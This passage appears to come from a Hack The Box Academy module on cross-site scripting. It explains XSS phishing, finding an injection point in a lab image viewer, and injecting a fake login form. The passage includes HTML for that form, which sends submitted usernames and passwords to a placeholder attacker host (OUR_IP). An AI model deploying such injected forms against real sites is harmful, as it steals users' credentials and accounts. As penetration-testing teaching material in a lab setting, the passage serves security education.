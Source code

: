 However, to ordinary users, the page looks defaced and shows our new look.


# Phishing

* * *

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

* * *

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.

* * *

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>

```

